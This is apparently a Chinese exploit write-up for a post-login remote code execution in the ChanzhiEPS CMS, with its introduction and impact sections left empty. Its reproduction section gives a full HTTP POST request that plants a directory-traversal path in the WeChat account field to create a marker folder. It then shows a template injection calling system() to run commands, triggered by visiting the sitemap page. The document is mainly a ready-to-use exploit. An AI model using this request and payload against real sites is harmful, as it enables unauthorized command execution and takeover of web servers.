 # 禅知 后台 getshell

> 原文：[http://book.iwonder.run/0day/禅知/2.html](http://book.iwonder.run/0day/禅知/2.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

后台存在模板编辑，但是如果保存的话需要创建一个/system\tmp\xjrg.txt 文件，那么我们找到一个可以创建任意文件的地方就

![image](img/99f7a2de39136001b031a7f316f305ea.png)

在/system/module/wechat/model.php

![image](img/cb04e963ca128d79361444b5e7d29992.png)

$qrcodeFile 未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始 ID 的地方写入穿越的文件路径

![image](img/4bc35f9458f4c7733bde2221660845e5.png)

```
POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
Content-Length: 120
Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
X-Forwarded-For: 8.8.8.8
Connection: close

type=subscribe&name=123&account=..%2F..%2F..%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0 
```

点一下二维码，再随便传一张图片，可以看到创建了一个 xjrg.txt 文件夹

![image](img/8e348c32648cb4e89990c16304dce4f6.png)

现在我们再去编辑模板，{!echo(system('ipconfig'))},可以直接写入一句话

![image](img/2bfdbba379e1c10073c4ebe387ccf4b5.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![image](img/4998cbe7cd0abce13c977ec341f94496.png)

